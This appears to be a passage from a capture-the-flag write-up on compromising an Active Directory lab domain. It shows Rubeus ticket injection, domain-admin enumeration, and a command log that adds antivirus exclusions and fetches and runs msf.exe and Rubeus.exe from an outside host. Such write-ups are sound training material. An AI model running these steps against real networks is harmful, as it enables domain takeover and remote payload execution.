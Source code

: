 We can now take the ticket and inject it into our own session using the `ptt` command:

```powershell
C:\Windows\Temp\attacker> .\rubeus.exe ptt /ticket:doIGAjCCBf6gAw[...]

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\Windows\Temp\attacker> klist

Current LogonId is 0:0x4a6095

Cached Tickets: (1)

#0>     Client: FACTWS$ @ FACTORIES.MAMMAMIA.LOCAL
        Server: krbtgt/FACTORIES.MAMMAMIA.LOCAL @ FACTORIES.MAMMAMIA.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 5/16/2024 21:29:14 (local)
        End Time:   5/17/2024 7:29:14 (local)
        Renew Time: 5/23/2024 21:29:14 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

We can now perform domain enumeration. A simple test is to list the domain admins:

```powershell
C:\Windows\Temp\attacker>net group "Domain Admins" /domain
The request will be processed at a domain controller for domain factories.mammamia.local.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Amministratore           
The command completed successfully.
```

At this point, you can also run BloodHound to collect a bunch of information about the domain. **Spoiler**: BloodHound will however not show you the full picture, as it will miss some important information.


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      